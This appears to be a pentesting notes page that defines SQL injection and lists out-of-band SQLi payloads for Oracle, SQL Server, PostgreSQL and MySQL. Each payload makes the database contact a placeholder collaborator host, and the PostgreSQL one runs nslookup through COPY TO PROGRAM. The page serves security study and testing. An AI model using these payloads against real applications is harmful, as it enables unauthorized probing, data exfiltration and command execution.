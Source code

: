 # SQL Injections (SQLi)

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack.

## Cheatsheet

https://portswigger.net/web-security/sql-injection/cheat-sheet

### Out-of-band interactions

- Oracle
  - `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- Microsoft
  - `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
  - `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- PostgreSQL
  - `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- MySQL
  - `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`
  - `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`